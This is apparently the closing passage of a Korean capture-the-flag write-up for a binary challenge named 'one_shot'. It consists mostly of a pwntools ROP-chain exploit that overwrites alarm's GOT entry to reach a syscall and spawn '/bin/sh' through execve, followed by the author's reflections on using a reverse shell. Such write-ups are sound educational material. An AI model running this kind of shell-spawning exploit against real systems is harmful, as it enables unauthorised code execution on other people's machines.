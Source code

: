 ```python
# make alarm call to syscall
# now rax value is 1
payload += p64(pop_rdi)	 # set rdi to (alarm+5) 1byte value   <alarm+5>:	syscall
payload += p64(0x4005e3) # contains byte 0xe5
payload += p64(pop_rsi_r15)	 # set rsi to new_buffer_address
payload += p64(alarm_got)
payload += p64(0xdeadbeef) 	 # r15
payload += p64(copy_rdi2rsi)
payload += p64(0xdeadbeef)  # rbx
payload += p64(trash_rbp)	# rbp

# now alarm call is syscall
# call execve!
payload += p64(pop_rbp)	 
payload += p64(execve_syscall_num_addr + 0xc)
payload += p64(mov_eax)	 # eax = 59
payload += p64(0xdeadbeef)   # rbx
payload += p64(trash_rbp)   # rbp

payload += p64(pop_rbp)	 
payload += p64(execve_syscall_num_addr + 0xc)
payload += p64(mov_eax)	 # eax = 59
payload += p64(0)   # rbx
payload += p64(trash_rbp)   # rbp

pop_r12_15 = 0x40083c   # pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret  ;  (1 found)
register_set_and_call_func   = 0x400820	# mov rdx, r13 ; mov rsi, r14 ; mov edi, r15d ; call qword [r12+rbx*8] ;  (1 found)

#set
payload += p64(pop_r12_15)
payload += p64(alarm_got)	# syscall set! r12=syscall_address & rbx=0 -> call qword [r12+rbx*8]
payload += p64(0)			# r13 -> rdx = 0
payload += p64(argv_addr)	# r14 -> rsi = argv_addr
payload += p64(copy_buffer_addr)	# r15 -> rdi = "/bin/sh\x00"
payload += p64(register_set_and_call_func)

log.info("payload_len : %x <= 0x234" % len(payload))

conn.send(payload)
conn.interactive()
```

위 파이썬 익스코드를 실행하면 로컬환경에 있는 flag를 획득할 수 있다.



### *후기

처음에는 문제 이름이 `one_shot`이길래, `oneshot_gadget`을 사용하란건 줄 알았다.
그래서 `leak`을 하기 위해 엄청나게 많은 시간을 투자하였으나, 무리였음을 깨닫게되었다..

뭐 그래도 reverse shell을 CTF에서 사용하는 걸 본게 처음이라, 나중을 위한 큰 도움이 될거라 생각한다.

문제는 내 서버가 없어서, 다음에 이런 문제가 나오면 어디서 쉘을 받느냐는 것이지만 ㅡㅡ;
